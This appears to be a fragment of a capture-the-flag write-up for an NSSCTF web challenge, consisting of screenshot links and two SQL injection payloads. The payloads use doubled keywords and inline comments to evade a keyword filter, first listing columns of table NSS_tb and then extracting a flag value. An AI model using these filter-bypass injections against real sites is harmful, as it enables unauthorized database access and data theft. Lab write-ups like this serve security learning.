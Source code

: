 ![image-20250817123348498](./NSSCTF-6.assets/image-20250817123348498.png)

```
nss=-1'/**/uunionnion/**/select/**/1,group_concat(column_name),3/**/from/**/infoorrmation_schema.columns/**/where/**/table_name="NSS_tb"/**/limit/**/1,1;#
```

![image-20250817123434595](./NSSCTF-6.assets/image-20250817123434595.png)

```
nss=-1'/**/uunionnion/**/select/**/1,group_concat("flll444g"),3/**/from/**/NSS_db.NSS_tb/**/limit/**/1,1;#
```

![image-20250817123700786](./NSSCTF-6.assets/image-20250817123700786.png)
